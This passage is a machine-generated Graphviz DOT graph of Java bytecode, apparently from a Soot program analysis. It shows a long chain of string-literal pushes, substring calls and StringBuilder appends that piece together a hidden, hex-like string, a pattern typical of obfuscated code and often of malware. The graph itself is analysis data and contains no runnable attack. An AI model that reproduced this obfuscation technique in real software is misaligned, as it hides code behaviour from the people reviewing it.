    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cN79kF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cN79kF\"";
    "push \"cN79kF\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"737feGY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"737feGY\"";
    "push \"737feGY\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"F4656\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"F4656\"";
    "push \"F4656\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hVF6d2emGu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hVF6d2emGu\"";
    "push \"hVF6d2emGu\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"muqe73Bmd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"muqe73Bmd\"";
    "push \"muqe73Bmd\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"657bn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"657bn\"";
    "push \"657bn\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0aF64532RL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0aF64532RL\"";
    "push \"0aF64532RL\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JKT656bp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JKT656bp\"";
    "push \"JKT656bp\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aEE375\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aEE375\"";
    "push \"aEE375\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4721KH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4721KH\"";
    "push \"4721KH\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zgk697LwV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zgk697LwV\"";
    "push \"zgk697LwV\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QL47L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QL47L\"";
    "push \"QL47L\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zP294d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zP294d\"";
    "push \"zP294d\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"t612Q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"t612Q\"";
    "push \"t612Q\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QWV6e6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QWV6e6\"";
    "push \"QWV6e6\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E16Ah0d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E16Ah0d\"";
    "push \"E16Ah0d\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d765FZN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d765FZN\"";
    "push \"d765FZN\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Me72\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Me72\"";
    "push \"Me72\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"286Cg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"286Cg\"";
    "push \"286Cg\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ge7v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ge7v\"";
    "push \"ge7v\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZjT56PJlE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZjT56PJlE\"";
    "push \"ZjT56PJlE\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QDsc6z5l\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QDsc6z5l\"";
    "push \"QDsc6z5l\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"c2b3UK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"c2b3UK\"";
    "push \"c2b3UK\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Wn93\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Wn93\"";
    "push \"Wn93\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b7kcbh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b7kcbh\"";
    "push \"b7kcbh\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nld677ty\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nld677ty\"";
    "push \"nld677ty\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"36d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"36d\"";
    "push \"36d\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0b17c\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0b17c\"";
    "push \"0b17c\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5S46315ck\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5S46315ck\"";
    "push \"5S46315ck\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1ntv682L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1ntv682L\"";
    "push \"1ntv682L\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"N6gD86nY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"N6gD86nY\"";
    "push \"N6gD86nY\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PKyQ529wTy\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PKyQ529wTy\"";
    "push \"PKyQ529wTy\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EANZ7bSUYF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EANZ7bSUYF\"";
    "push \"EANZ7bSUYF\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ty7d3Pm3g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ty7d3Pm3g\"";
    "push \"ty7d3Pm3g\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yVNb6h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yVNb6h\"";
    "push \"yVNb6h\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rC792bSJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rC792bSJ\"";
    "push \"rC792bSJ\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qNv22bTQNB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qNv22bTQNB\"";
    "push \"qNv22bTQNB\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Q3bV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Q3bV\"";
    "push \"Q3bV\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jWv7d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jWv7d\"";
    "push \"jWv7d\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wLSY3b\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wLSY3b\"";
    "push \"wLSY3b\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3569TU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3569TU\"";
    "push \"3569TU\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AmE662\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AmE662\"";
    "push \"AmE662\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01bU8217\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01bU8217\"";
    "push \"01bU8217\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"76a6h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"76a6h\"";
    "push \"76a6h\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"slk2176hYZb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"slk2176hYZb\"";
    "push \"slk2176hYZb\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LPhk61NUrP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LPhk61NUrP\"";
    "push \"LPhk61NUrP\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"J2e6eDvL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"J2e6eDvL\"";
    "push \"J2e6eDvL\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0qSc61uH0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0qSc61uH0\"";
    "push \"0qSc61uH0\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6ew\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6ew\"";
    "push \"6ew\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"g67f\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"g67f\"";
    "push \"g67f\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2ebQk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2ebQk\"";
    "push \"2ebQk\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"fDR537h3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"fDR537h3\"";
    "push \"fDR537h3\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PH973g3E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PH973g3E\"";
    "push \"PH973g3E\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"746\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"746\"";
    "push \"746\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"m56d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"m56d\"";
    "push \"m56d\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"f1cu2e6n\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"f1cu2e6n\"";
    "push \"f1cu2e6n\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Aj762Tg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Aj762Tg\"";
    "push \"Aj762Tg\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dSP574V\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dSP574V\"";
    "push \"dSP574V\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"536Whs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"536Whs\"";
    "push \"536Whs\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"56H2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"56H2\"";
    "push \"56H2\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G375\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G375\"";
    "push \"G375\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mvL72mgCb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mvL72mgCb\"";
    "push \"mvL72mgCb\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ud696Nu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ud696Nu\"";
    "push \"Ud696Nu\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AQ74Upf\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AQ74Upf\"";
    "push \"AQ74Upf\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"y4790w\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"y4790w\"";
    "push \"y4790w\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7nMH4d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7nMH4d\"";
    "push \"7nMH4d\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6Zlt61k\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6Zlt61k\"";
    "push \"6Zlt61k\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6e\"";
    "push \"6e\""->"push 0";
    "push 0"->"push 2";
